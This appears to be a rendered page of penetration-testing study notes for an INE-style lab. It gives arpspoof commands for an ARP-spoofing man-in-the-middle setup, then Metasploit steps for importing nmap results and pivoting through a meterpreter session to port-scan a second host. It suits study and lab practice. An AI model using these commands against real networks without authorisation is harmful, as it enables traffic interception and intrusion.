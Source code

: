 ```Shell
echo 1 > /proc/sys/net/ipv4/ip_forward
```

> This command can be used to enable ip-forwarding. in seperate terminal

```Shell
arpspoof -i eth1 -t 172.16.5.5 172.16.5.1
arpspoof -i eth1 -t 172.16.5.1 172.16.5.5
```
***Windows 7 at 172.16.5.5, and the default gateway at 172.16.5.1***
> The attacker positions themselves in the middle of the communication between `172.16.5.5` and `172.16.5.1`, enabling a Man-in-the-Middle (MitM) attack. both run in seperate terminal.

***EXPLAINATION:***

The commands use `arpspoof` to perform ARP spoofing, tricking the devices at IP addresses `172.16.5.5` and `172.16.5.1` into thinking the attacker's MAC address belongs to each other. This redirects the network traffic between these two devices through the attacker, enabling a Man-in-the-Middle (MitM) attack.

#### Importing Nmap Scan Results Into MSF

> Following set of commands can be used to import a scan into your `msfconsole`

```msfconsole
nmap -sV -Pn -oX my-scan.xml <ip-address>
service postgresql start
msfconsole -q
db_status
db_import my-scan.xml
hosts
services
```

#### Network Service Scanning

***THIS IS DONE VIA PIVOTING AND EVERYTHING DEMOSTARTED UNDER IS DONE AFTER EXPLOITATION***

```shell
run autoroute -s <ip-address>
```

> This command can be used add the route to Metasploit's routing table.

***Press CTRL+Z and Enter y to background the meterpreter session in order to run the following command***

```msfconsole
use auxiliary/scanner/portscan/tcp
set RHOSTS demo2.ine.local
set verbose false
set ports 1-1000
exploit
```

> This module can be used to run a portscan tcp module of Metasploit to scan the second target machine.
